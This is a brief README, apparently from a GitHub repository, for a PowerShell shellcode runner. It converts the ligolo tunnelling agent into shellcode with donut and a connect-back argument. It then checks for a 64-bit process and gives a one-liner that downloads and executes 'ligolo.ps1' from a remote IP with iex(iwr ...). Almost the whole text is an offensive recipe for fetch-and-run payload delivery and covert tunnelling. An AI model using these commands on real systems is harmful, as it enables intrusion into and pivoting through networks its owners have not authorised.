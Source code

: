 ## Powershell Shellcode Runner 
Make sure to convert agent.exe of ligolo to shellcode:
- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

Make sure you are running as x64 bit process before running: Powershell:
- `[Environment]::Is64BitProcess`

CMD: 
- `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

Invoke it: 
- `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`

*NOTE: make sure both ligolo.ps1 and agent.bin in the same directory, then serve them by simply using python server*.
